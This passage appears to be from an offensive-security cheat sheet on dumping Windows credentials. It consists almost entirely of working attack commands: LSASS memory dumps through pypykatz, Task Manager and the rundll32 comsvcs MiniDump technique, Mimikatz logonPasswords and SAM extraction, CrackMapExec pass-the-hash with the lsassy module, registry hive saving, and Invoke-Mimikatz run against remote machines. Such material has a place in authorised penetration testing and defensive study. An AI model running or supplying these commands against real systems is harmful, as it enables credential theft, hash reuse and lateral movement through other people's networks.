 #### Using pypykatz (Mimikatz functionality in Python)
```
pypykatz.exe live lsa
```

#### Use task manager
- Find lsass process in details tab
- Right click and select create dump file

### Manually
```
Get-Process lsass
rundll32.exe C:\windows\System32\comsvc.dll, MiniDump <LSASS PROCESS ID> C:\Users\lsass.dmp full
mimikatz.exe
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

## Dumping SAM
#### Crackmapexec
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> --lsa
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> -M lsassy
```

#### Mimikatz dump SAM
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

#### Manually
```
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv

mimikatz.exe
mimikatz # lsadump::sam SamBkup.hiv SystemBkup.hiv
```

## Mimikatz
- Check out https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md for more commands

#### Mimikatz dump credentials on local machine
```
Invoke-Mimikatz -Dumpcreds
```

#### Mimikatz dump credentials on multiple remote machines
```
Invoke-Mimikatz -Dumpcreds -ComputerName @("<COMPUTERNAME 1>","<COMPUTERNAME2>")
```
